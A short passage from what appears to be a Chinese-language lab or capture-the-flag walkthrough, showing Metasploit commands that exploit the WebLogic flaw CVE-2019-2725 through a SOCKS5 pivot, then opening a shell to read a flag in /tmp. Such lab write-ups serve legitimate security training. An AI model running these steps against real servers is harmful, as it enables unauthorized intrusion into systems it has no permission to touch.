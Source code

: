 3. 设置pivot路由
![](./pics/添加pivot路由3.png)<br>

### 步骤五 靶标4-5攻破

#### weblogic

```bash
search cve-2019-2725
use 0
set Proxies socks5:127.0.0.1:1080
# 设置靶机IP等
# 例：
# set rhosts 192.169.85.3
# 设置完成以后再进行攻击
run
```
会话窗口开启以后，进入shell，输入ls /tmp
![](./pics/拿到flag3.png)
